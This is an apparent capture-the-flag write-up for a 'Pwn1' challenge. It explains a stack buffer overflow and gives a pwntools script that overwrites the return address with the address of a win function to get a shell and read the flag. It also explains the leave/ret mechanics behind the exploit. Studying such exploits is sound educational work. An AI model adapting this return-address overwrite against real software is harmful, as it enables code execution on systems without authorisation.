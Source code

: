 # Pwn1
We have been provided with a connection to a server. First of all, our objective is to decompile the binary. Within the `main` function, the program accepts user input and then returns a fake flag.<br>
![preview](images/1.png)<br>

We can also observe that there is another function called <i>win</i> which returns shell. <br>
![preview](images/2.png)<br>
### Solution
The code takes 80 bytes of input from the user and attempts to fit it into a 64-byte character table. This leads to an overflow, which we can exploit to redirect the code execution to the `win` function. To achieve this, we simply need to provide a payload consisting of 72 bytes of padding followed by an 8-byte address corresponding to the `win` function. This will overwrite the instruction pointer and redirect the code execution.
![preview](images/3.png)<br>
### Code
```
from pwn import *

host = 'challs.n00bzunit3d.xyz'
port = '35932'

context.binary = 'pwn1'

padding = 72*'a'
address = pack(0x40124a)
payload = padding.encode('utf-8') + address

conn = remote(host,port)

conn.sendline(payload + b'cat flag.txt')
print(conn.recv())
print(conn.recv())
print(conn.recv())
```
### Why does it happen?

By examining the disassembly of the `main` function, we can observe that it initially creates a 64-byte stack. Before returning, it frees up the stack using the leave instruction, which is a shorthand for the following:
```
mov rsp, rbp
pop rbp
```
![preview](images/4.png)<br>
When we provide 80 bytes of input to this 64-byte stack, it overflows and overwrites the addresses after $rbp of `main`. After the `leave` instruction, the address of the win function remains at the top of the stack. Now `ret` instruction will simply return to the address on the top of the stack.

